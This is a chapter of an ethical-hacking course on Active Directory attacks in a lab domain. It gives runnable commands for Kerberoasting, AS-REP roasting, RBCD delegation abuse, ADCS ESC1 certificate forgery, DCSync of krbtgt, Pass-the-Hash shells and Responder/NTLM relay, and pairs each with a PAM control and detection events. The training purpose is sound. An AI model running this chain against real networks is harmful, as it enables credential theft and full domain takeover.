

# 11 — Attacking Active Directory

> **What you'll learn:** what Active Directory (AD) actually is, then a hands-on tour of the attacks that carry a red team from one low-privilege user to full domain control — enumeration, Kerberoasting, AS-REP roasting, delegation abuse, ADCS, DCSync, and Pass-the-Hash — each paired with the **PAM control** that stops it.
> **Prerequisites:** [10 — Password attacks](10-password-attacks.md). ⬅️ [Course index](README.md)

> **⚖️ Lab only.** These are real domain-takeover techniques. Run them **only** against your own isolated lab (the DC at `192.168.56.30`) or a network you have **written** permission to test. Kerberoasting someone else's domain is a felony, not a demo.

---

## What is Active Directory?
Most companies don't manage each Windows machine by hand. They join them all to a **domain** — a central directory of users, computers, and groups run by a **Domain Controller (DC)**. Log in once, and the domain decides what you can touch everywhere. Compromise the domain, and you own every machine in it. That's why AD is the single biggest target in enterprise hacking.

| Term | Beginner explanation |
|---|---|
| **Domain** | A named group of users/computers managed together, e.g. `ceh.lab`. |
| **Domain Controller (DC)** | The server running AD; holds the password database (`NTDS.dit`) and answers every login. Our DC is `192.168.56.30`. |
| **User / Group** | An account, and a bundle of permissions. **Domain Admins** is the crown-jewel group. |
| **Kerberos** | The login protocol AD uses. Think of it as a ticket booth (details below). |
| **TGT** | *Ticket-Granting Ticket* — a wristband the DC gives you at login proving who you are. |
| **TGS** | *Service Ticket* — you trade your TGT for one of these to actually use a specific service. |
| **SPN** | *Service Principal Name* — a label tying a service (e.g. a SQL server) to the account that runs it. Kerberoasting abuses these. |



**Our foothold** (an *assumed-breach* start, exactly like a real internal test): the low-privilege domain user `jdoe` with password `Passw0rd!`. Everything below starts from there.

## Install the toolkit
```bash
sudo apt update && sudo apt install -y netexec impacket-scripts bloodhound python3-bloodhound \
  kerbrute evil-winrm ldap-utils
pipx install certipy-ad        # Certipy for ADCS; pipx keeps it isolated
# You should see: each tool reports installed. Test one: nxc smb --help
```
> On some Kali builds `nxc` is called `netexec`; they're the same tool (the old name was `crackmapexec`).

## Step 1 — Enumerate the domain
Never attack first. Map the domain, its users, groups, and the *relationships* between them — that map is where every attack path is hiding.

```bash
# Who are the users and groups? (SMB, authenticated as jdoe)
nxc smb 192.168.56.30 -u jdoe -p 'Passw0rd!' --users --groups
# You should see: a user list incl. svc-sql, and groups incl. Domain Admins.

# Raw LDAP query — pull every user's sAMAccountName straight from the directory
ldapsearch -x -H ldap://192.168.56.30 -D 'jdoe@ceh.lab' -w 'Passw0rd!' \
  -b 'DC=ceh,DC=lab' '(objectClass=user)' sAMAccountName

# Collect EVERYTHING for BloodHound (-c all = all collection methods)
bloodhound-python -u jdoe -p 'Passw0rd!' -d ceh.lab -ns 192.168.56.30 -c all --zip
# You should see: a .zip of .json files written to the current folder.
```

Now **read the map in BloodHound.** Start the database and UI, then drag the `.zip` onto the window:
```bash
sudo neo4j start                 # the graph database BloodHound uses
bloodhound                       # opens the GUI (login neo4j/neo4j the first time)
```
In the UI, run the pre-built query **"Shortest Paths to Domain Admins"** and mark `jdoe` as *Owned*. Look for the paths the lab planted: **`jdoe` has `GenericWrite` on `ws01`**, the `svc-sql` SPN account, and an AS-REP-roastable user. Those edges *are* the rest of this chapter.

> **🛡️ PAM fix:** anyone authenticated can read most of AD — that's by design. You can't block recon, so you deny what it *finds*: least-privilege ACLs, and Defender for Identity / UEBA to flag mass-LDAP or SharpHound-style collection.

## Step 2 — User enumeration & password spraying
`kerbrute` asks the DC "does this user exist?" using Kerberos pre-auth — fast, and it doesn't cause login-failure lockouts on its own.

```bash
# Validate a username list against the DC (no passwords tried yet)
kerbrute userenum -d ceh.lab --dc 192.168.56.30 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
# You should see: [+] VALID USERNAME lines for real accounts.

# Spray ONE password across many users (one guess each = avoids lockout)
kerbrute passwordspray -d ceh.lab --dc 192.168.56.30 valid_users.txt 'Passw0rd!'
```
> **🛡️ PAM fix:** account-lockout + smart-lockout policy, MFA, and alerting on the spray pattern (many `4771`/`4625` across accounts from one source). A PAM broker rate-limits and brokers auth so raw guessing never reaches the DC.

## Step 3 — Kerberoasting
Any domain user can request a **TGS** for any account that has an **SPN**. That ticket is encrypted with the *service account's password hash* — so you request it, take it offline, and crack the password. No admin rights needed to ask.

```bash
# Request TGS tickets for all SPN accounts, save crackable hashes
impacket-GetUserSPNs ceh.lab/jdoe:'Passw0rd!' -dc-ip 192.168.56.30 -request -outputfile kerb.txt
# You should see: the svc-sql account and a $krb5tgs$ hash written to kerb.txt.

# Crack it offline (-m 13100 = Kerberos TGS-REP)
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt
# You should see: svc-sql's password recovered (it's weak in the lab).
```
> **🛡️ PAM fix:** convert service accounts to a **gMSA** — a *group Managed Service Account* whose 120+ character password AD rotates automatically. Re-run the roast against the gMSA and the crack **fails** (you can't dictionary a random 120-char key). Also enforce AES-only. Detection: `4769` TGS requests using RC4 (`0x17`) encryption. This is the exact control demo in [Module 06](../modules/06-system-hacking/README.md).

## Step 4 — AS-REP roasting
Some accounts have *"Kerberos pre-authentication not required"* set. For those, the DC hands out an encrypted blob **before** you prove who you are — so you can grab it without any password and crack it offline.

```bash
# Ask for AS-REP blobs for a user list; -no-pass because pre-auth is off
impacket-GetNPUsers ceh.lab/ -usersfile valid_users.txt -no-pass -dc-ip 192.168.56.30 \
  -format hashcat -outputfile asrep.txt
# You should see: a $krb5asrep$ hash for any no-preauth account.

hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt   # -m 18200 = AS-REP
```
> **🛡️ PAM fix:** require pre-authentication on **every** account (remove `DONT_REQUIRE_PREAUTH`), and give any service/legacy account a long random vaulted password. Detection: `4768` with pre-auth type `0`.

## Step 5 — Delegation abuse (RBCD)
BloodHound showed `jdoe` has **`GenericWrite`** on the computer `ws01`. That write lets us configure **Resource-Based Constrained Delegation (RBCD)**: we tell `ws01` "trust this computer account of mine to act on behalf of any user" — then impersonate *Administrator* to `ws01` and log in as them.

```bash
# 1. Create a computer account we control (normal users may add up to 10)
impacket-addcomputer ceh.lab/jdoe:'Passw0rd!' -computer-name 'ATTACK$' \
  -computer-pass 'AttackPass123!' -dc-ip 192.168.56.30

# 2. Abuse GenericWrite: let ATTACK$ act on behalf of others toward ws01
impacket-rbcd ceh.lab/jdoe:'Passw0rd!' -delegate-to 'ws01$' -delegate-from 'ATTACK$' \
  -action write -dc-ip 192.168.56.30
# You should see: "Delegation rights modified successfully".

# 3. Mint a service ticket AS Administrator for ws01's file service
impacket-getST ceh.lab/'ATTACK$':'AttackPass123!' -spn 'cifs/ws01.ceh.lab' \
  -impersonate Administrator -dc-ip 192.168.56.30
# You should see: a .ccache saved. Use it:
export KRB5CCNAME='Administrator@cifs_ws01.ceh.lab@CEH.LAB.ccache'
impacket-psexec -k -no-pass ceh.lab/Administrator@ws01.ceh.lab   # SYSTEM shell on ws01
```
> **🛡️ PAM fix:** low-privilege users must not hold write permissions (`GenericWrite`/`GenericAll`) on computer objects — audit and remove them, and **tier** admin so a Tier-2 foothold can't touch Tier-0. Detection: `5136` modifying `msDS-AllowedToActOnBehalfOfOtherIdentity`. Deep dive: [identity-attack-paths](../defender-pam/identity-attack-paths.md).

## Step 6 — ADCS ESC1 (certificate abuse)
If AD **Certificate Services** has a template that lets the requester supply their own name (SAN) *and* allows client authentication, a normal user can request a certificate **as the Administrator** — then log in with it. Certificates survive password changes, so this is nasty persistence.

```bash
# Find vulnerable templates
certipy find -u jdoe@ceh.lab -p 'Passw0rd!' -dc-ip 192.168.56.30 -vulnerable -stdout
# You should see: a template flagged [!] ESC1 with a CA name.

# Request a cert AS administrator (-upn = the identity we're claiming)
certipy req -u jdoe@ceh.lab -p 'Passw0rd!' -dc-ip 192.168.56.30 \
  -ca 'ceh-DC01-CA' -template 'ESC1-Vuln' -upn administrator@ceh.lab
# You should see: administrator.pfx saved.

# Authenticate with the cert -> get Administrator's TGT and NT hash
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.30
# You should see: [*] Got TGT ... and the NT hash for administrator.
```
> **🛡️ PAM fix:** on the template, remove the "supply subject in request" (SAN) flag and require **manager approval**; tighten template + CA ACLs. Because certs ignore rotation, ADCS hygiene is a first-class PAM concern. Re-run `certipy find` afterward to prove the fix (audit mode).

## Step 7 — DCSync
With Administrator/Domain-Admin rights you can pretend to be a DC and ask the real DC to **replicate** password hashes to you — including `krbtgt`, the key that signs *every* Kerberos ticket. Hold that and you can forge a **Golden Ticket** for anyone, forever.

```bash
# Use the NT hash recovered in Step 6 (Pass-the-Hash into secretsdump)
impacket-secretsdump ceh.lab/administrator@192.168.56.30 -hashes :<admin_NT_hash> -just-dc-user krbtgt
# You should see: krbtgt:502:aad3b...:<hash>::: pulled via replication.
```
> **🛡️ PAM fix:** grant replication rights (`DS-Replication-Get-Changes-All`) **only** to DCs, isolate Tier 0, and vault Domain-Admin creds behind JIT. After **any** DA compromise, **rotate `krbtgt` twice** (two resets, spaced past ticket lifetime) so stolen keys and any Golden Tickets die. Detection: `4662` replication requested from a **non-DC** host.

## Step 8 — Pass-the-Hash & lateral movement
You don't need the plaintext password — the **NT hash** *is* the credential to NTLM. Reuse it to run commands, get a shell, or spray it across hosts to find where an admin is reused.

```bash
impacket-psexec -hashes :<NT_hash> ceh.lab/administrator@192.168.56.31   # SYSTEM shell (SMB)
evil-winrm -i 192.168.56.31 -u administrator -H <NT_hash>                # WinRM shell (5985)
nxc smb 192.168.56.31 -u administrator -H <NT_hash>                      # check where it works
# You should see: Pwn3d! / a shell — no password ever typed.
```
> **🛡️ PAM fix:** **LAPS** (unique, rotated local-admin passwords) kills hash reuse; **Protected Users** + tiering + Credential Guard stop the hash from being stolen or replayed. A PAM broker means the hash never lands on the endpoint at all.

## Step 9 — Responder & NTLM relay (brief)
On a shared segment, Windows constantly asks "who has this name?" via broadcast (LLMNR/NBT-NS). `responder` answers "me!" and captures the NTLMv2 hashes machines send. Instead of cracking, you can **relay** that authentication straight to another host.

```bash
sudo responder -I eth0 -dwv                       # poison name lookups, collect hashes
# You should see: [SMB] captured NTLMv2 hashes -> crack with hashcat -m 5600.

# Or relay the captured auth to another SMB host (don't also run Responder's SMB server)
impacket-ntlmrelayx -tf targets.txt -smb2support
```
> **🛡️ PAM fix:** disable LLMNR/NBT-NS, enforce **SMB signing**, and require MFA — a relayed hash with no signing is a validated login; with signing it's rejected. More in [12 — Sniffing & MITM](12-sniffing-mitm.md).

## The chain, and what breaks each link
| Step | Attack | The one control that stops it |
|---|---|---|
| 3 | Kerberoasting | gMSA / CPM-rotated service password (AES-only) |
| 4 | AS-REP roasting | Require pre-auth on every account |
| 5 | RBCD delegation | No low-priv writes on computer objects + tiering |
| 6 | ADCS ESC1 | Template/CA hardening (no SAN supply, approval) |
| 7 | DCSync | Replication locked to DCs; Tier 0 isolation; rotate krbtgt twice |
| 8 | Pass-the-Hash | LAPS + Protected Users + Credential Guard |

Full defender mapping: [identity-attack-paths](../defender-pam/identity-attack-paths.md) · [Module 06 — System Hacking](../modules/06-system-hacking/README.md).

## Common beginner mistakes
- **Kerberos clock skew.** Kerberos rejects tickets if your Kali clock differs from the DC by more than ~5 minutes — you'll see `KRB_AP_ERR_SKEW`. Fix it: `sudo ntpdate 192.168.56.30` (or `sudo rdate -n 192.168.56.30`) before any Kerberos/Impacket command.
- **DNS not pointing at the DC.** AD *is* DNS. If names like `ws01.ceh.lab` don't resolve, set the DC as your resolver or add `-dc-ip` / hosts entries. Kerberos needs FQDNs, not raw IPs.
- **Using the IP where a name is required.** `impacket-getST`/`psexec -k` need `ws01.ceh.lab`, not `192.168.56.31` — Kerberos tickets are bound to the service *name*.
- **Forgetting `export KRB5CCNAME`** after minting a ticket, so `-k` can't find your `.ccache`.
- **Wrong hashcat mode:** `-m 13100` for Kerberoast (TGS), `-m 18200` for AS-REP, `-m 5600` for NTLMv2 from Responder. Mixing them = "no hashes loaded."
- **Skipping BloodHound.** The graph tells you *which* attack even applies. Enumerate before you exploit — every time.

## ✅ Practice task
Run the whole chain end-to-end against your lab using the guided walkthrough in [`../labs/capstone.md`](../labs/capstone.md):
1. Enumerate with `nxc` + `bloodhound-python`, then find the Domain-Admin path in BloodHound.
2. Kerberoast `svc-sql` and crack it — then re-run against the gMSA and watch the crack **fail**.
3. Abuse `jdoe`'s `GenericWrite` on `ws01` (RBCD) to get a SYSTEM shell.
4. ESC1 your way to an Administrator certificate, then DCSync `krbtgt`.
5. **Do it twice:** once with the lab's planted weaknesses (you win), once after applying each PAM fix (you're stopped and logged). That contrast is the lesson.

## Next
➡️ [12 — Sniffing & MITM](12-sniffing-mitm.md): Wireshark, tcpdump, bettercap, and going deeper on Responder + relay.

## Sources
- The Hacker Recipes — Active Directory: https://www.thehacker.recipes/ad/
- Impacket (Fortra): https://github.com/fortra/impacket
- Certipy (ADCS): https://github.com/ly4k/Certipy
- BloodHound docs: https://bloodhound.readthedocs.io/
- NetExec (nxc): https://www.netexec.wiki/ · Kerbrute: https://github.com/ropnop/kerbrute
- SpecterOps — Certified Pre-Owned (ADCS ESC1–8): https://posts.specterops.io/certified-pre-owned-d95910965cd2
